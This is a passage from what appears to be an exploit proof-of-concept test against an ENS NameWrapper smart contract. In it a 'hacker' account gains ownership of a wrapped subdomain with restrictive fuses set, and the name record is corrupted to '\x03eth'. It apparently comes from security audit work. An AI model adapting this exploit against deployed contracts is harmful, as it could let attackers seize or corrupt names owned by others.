 ```javascript=
        wrappedSub2TokenId,
        sub3Label,
        hacker,
        PARENT_CANNOT_CONTROL | CANNOT_UNWRAP,
        MAX_EXPIRY
      )
      expect(await NameWrapper.ownerOf(wrappedSub3TokenId)).to.equal(hacker)

      // ///////////////////////////
      // // Attack successed!
      // ///////////////////////////

      // XXX: names[wrappedSub3TokenId] becomes `\x03eth`
      expect(await NameWrapper.names(wrappedSub3TokenId)).to.equal('0x03657468') // \03eth
    })
  })
})
```

